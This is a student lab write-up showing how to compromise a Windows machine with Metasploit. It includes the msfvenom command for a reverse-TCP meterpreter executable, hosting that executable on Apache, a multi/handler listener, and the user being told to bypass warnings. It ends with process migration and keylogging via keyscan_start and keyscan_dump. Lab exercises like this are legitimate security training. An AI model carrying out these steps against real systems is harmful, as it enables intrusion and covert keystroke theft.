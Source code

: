 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit

### NAME:- PAVITHRA R
### REG NO: 212222230106

Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

### PROGRAM:

Find the attackers ip address using ifconfig

### Output:
![Screenshot 2024-10-28 104103](https://github.com/user-attachments/assets/7c0cf93c-2bcf-4472-8e0c-48a0be5b1344)



Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:
![Screenshot 2024-10-28 104115](https://github.com/user-attachments/assets/16f8be4c-450a-4174-b3e8-3e43b6b51ee4)



copy the fun.exe into the apache ```/var/www/html ```folder
![Screenshot 2024-10-28 104124](https://github.com/user-attachments/assets/3a7dbe63-7f65-4c65-a3dd-421764f766f1)



Start apache server ```sudo systemctl apache2 start``` 
![Screenshot 2024-10-28 104132](https://github.com/user-attachments/assets/76e2aac9-de69-4482-8f5d-54396430ff02)



Check the status of apache2 ```sudo apache2 status```
![Screenshot 2024-10-28 104155](https://github.com/user-attachments/assets/7fe45094-2884-4cc2-8f3d-1fb03894baee)


Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
![374795103-d6bd1bdb-3064-45e8-b6b1-e22d2e80209f](https://github.com/user-attachments/assets/108c6d73-63fc-415b-8b5d-5ddbeb7bdfb7)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.
![374795180-7be60e9f-2ce3-487a-9668-8bdb282e8931](https://github.com/user-attachments/assets/2d3c9bbd-30bf-4db7-8957-4760d26234a1)


Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
![374795286-596d3916-66f9-4605-8ae4-5dd21116b77a](https://github.com/user-attachments/assets/3b6d33dd-159f-4798-926d-22dece021d73)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

#### Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![374795471-d53176fa-7af0-4f05-b526-91713074335d](https://github.com/user-attachments/assets/70c71c8a-0ed9-42b7-a002-f07f1d50b459)


keyscan_dump Shows the keystrokes captured so far
![374795532-ec7c391d-62a6-4fdc-a2c3-ef383b6c8a57](https://github.com/user-attachments/assets/1b9359f7-97a1-4452-9cd8-4abba68f2246)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
